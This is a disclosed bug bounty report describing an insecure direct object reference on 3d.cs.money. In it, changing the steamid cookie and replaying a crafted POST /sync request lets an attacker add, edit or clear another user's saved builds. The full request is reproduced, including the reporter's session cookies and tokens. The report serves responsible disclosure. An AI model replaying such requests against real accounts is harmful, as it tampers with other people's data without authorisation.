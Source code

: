 # IDOR in https://3d.cs.money/

## Report Details
- **Report ID**: 990878
- **URL**: https://hackerone.com/reports/990878
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-25T05:44:28.262Z
- **Disclosed**: 2020-09-28T12:01:21.814Z

## Reporter
- **Username**: khoabda1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: cs_money

## Vulnerability Information
## Summary:
Hello,
I found an IDOR in https://3d.cs.money/ which will allow you to save, edit, delete build of victim account without any grant on the victim account

## Steps To Reproduce:
This bug based on steamID which is reflected on Steam or you can use any Steam ID Finder software to find (https://steamidfinder.com/)
To reproduce this bug, you need to have 2 accounts (attacker and victim)
My pair steamID is 
Attacker: █████
Victim: ████████

- Login in https://new.cs.money with your Attacker account. The website will set my cookie to ` steamid=████████`
- Craft a request to sync your builds like this 

```
POST /sync HTTP/1.1
Host: 3d.cs.money
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/plain, */*
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json;charset=utf-8
Content-Length: 286
Origin: https://3d.cs.money
Connection: close
Referer: https://3d.cs.money/g3sg1-black-sand-fn
Cookie: __cfduid=dd4a5ae822200c2e5a6622942c8e9b5c61600828055; TEST_GROUP=6; UUID3D=z8yNnunP7rEULv4; _ga=GA1.1.123687832.1600828067; _ga_HY7CCPCD7H=GS1.1.1601010291.13.1.1601011220.60; _gid=GA1.2.745101638.1600828070; language=en; sellerid=2351662; theme=darkTheme; pro_version=false; tmr_reqNum=84; tmr_lvid=a86af86a1e546621ee998805dedf795e; tmr_lvidTS=1600829462593; _ym_uid=1600829464576681153; _ym_d=1600829464; prism_89846284=886529b3-1b72-491d-8e3e-fb061941ce6b; amplitude_id_222f15bd4f15cdfaee99c07bcc641e5fcs.money=eyJkZXZpY2VJZCI6ImJlNWM1YjhmLWE3OTQtNDZiNC1iMzg5LWU2MzljYThkZTNiNlIiLCJ1c2VySWQiOiI3NjU2MTE5ODM4OTQwODM5MiIsIm9wdE91dCI6ZmFsc2UsInNlc3Npb25JZCI6MTYwMDk1MzY5NTUyOCwibGFzdEV2ZW50VGltZSI6MTYwMDk1Mzc5MzEyNywiZXZlbnRJZCI6NDAsImlkZW50aWZ5SWQiOjE4LCJzZXF1ZW5jZU51bWJlciI6NTh9; _fbp=fb.1.1600829468046.1736484188; csmoney_ga=GA1.2.348732095.1600829528; csmoney_ga_gid=GA1.2.929098124.1600829528; type_device=desktop; support_token=6f4a7515e3000799c5b9ffc20b3bdb808e065ec4a7d77c557bf14b72922136d9; amplitude_id_c14fa5162b6e034d1c3b12854f3a26f5cs.money=eyJkZXZpY2VJZCI6IjU0MTdhZjg4LTE0NDgtNDg3NC05YmNkLTFmMjczOGIwY2EyZFIiLCJ1c2VySWQiOiI3NjU2MTE5ODM4OTQwODM5MiIsIm9wdE91dCI6ZmFsc2UsInNlc3Npb25JZCI6MTYwMTAwMzA0MTE2NCwibGFzdEV2ZW50VGltZSI6MTYwMTAwMzA1OTU1MywiZXZlbnRJZCI6MzA2LCJpZGVudGlmeUlkIjo1LCJzZXF1ZW5jZU51bWJlciI6MzExfQ==; amp_d77dd0=nCXsKPRaEaZ_9OrPDjz6cM...1ej1qcnqb.1ej1qjat4.0.1.1; amp_d77dd0_cs.money=nCXsKPRaEaZ_9OrPDjz6cM...1ej1qcnqf.1ej1r92m4.39.2.3a; steamid=████; avatar=https://steamcdn-a.akamaihd.net/steamcommunity/public/images/avatars/9e/9e972864d883f1b2e12cde94c8f83ef005c22438_medium.jpg; username=khoadeptrai; thirdparty_token=83a3e70e33f5a91ced64ee3a0fd005d80e119cb762c2d82449707c0eba6efcf1; trade_link=https%3A%2F%2Fsteamcommunity.com%2Ftradeoffer%2Fnew%2F%3Fpartner%3D429142664%26token%3DI1hTESVQ; _privy_undefined=%7B%22uuid%22%3A%22aa550b56-d1d7-425a-a4f8-28b3b53d6a71%22%7D; _privy_0A13181283E3DE28238D8AB1=%7B%22uuid%22%3A%22aa550b56-d1d7-425a-a4f8-28b3b53d6a71%22%2C%22variations%22%3A%7B%7D%2C%22country_code%22%3A%22VN%22%2C%22region_code%22%3A%22VN_35%22%2C%22postal_code%22%3A%22%22%7D; _ym_isad=2; _ym_visorc_62327980=w

{"backgrounds":["/assets/images/back3.jpeg"],"builds":[],"edition":1}
```

- Change the value of `steamid`cookie to Victim SteamID (████████)
- All the builds in the Victim build list are cleared

## Impact

Add, Edit, Delete any build of any account

## Attachments
No attachments
